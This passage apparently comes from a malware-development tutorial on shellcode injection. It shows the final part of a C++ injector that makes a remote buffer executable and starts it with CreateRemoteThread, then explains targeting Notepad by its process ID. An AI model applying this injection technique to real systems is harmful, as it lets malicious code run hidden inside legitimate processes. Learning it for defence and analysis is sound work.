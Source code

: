 ```cpp

    // Make the remote buffer executable
    rv = VirtualProtectEx(proc, exec_buffer, shellcode_len, PAGE_EXECUTE_READ, &oldprotect);

    if (rv != 0) {
        // Run the payload from the remote thread
        th = CreateRemoteThread(proc, 0, 0, (LPTHREAD_START_ROUTINE)exec_buffer, 0, 0, 0);
        CloseHandle(proc);
    }
    
    return 0;
}
```

Once our program is compiled, we can open up an app such as Notepad to inject our shellcode into. I'm using [Process Hacker](https://processhacker.sourceforge.io/) to analyze processes running on my system, but there are other similar apps you could also use. In the below screenshot we can see Notepad is running under PID **9992** on my system.

<img src="/assets/images/maldev101/shellcodeinject-notepad.png" alt="shellcodeinject-notepad" width="450" height="475"/>

Our C++ program expects the PID as an input argument that we are injecting shellcode into, which gets assigned to the `DWORD PID` variable. The program then attempts to open the target process using the [`OpenProcess`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function which expects the target PID as the last argument. Once we opened the process, we can use our 4 Win32 API functions above to do the following steps:
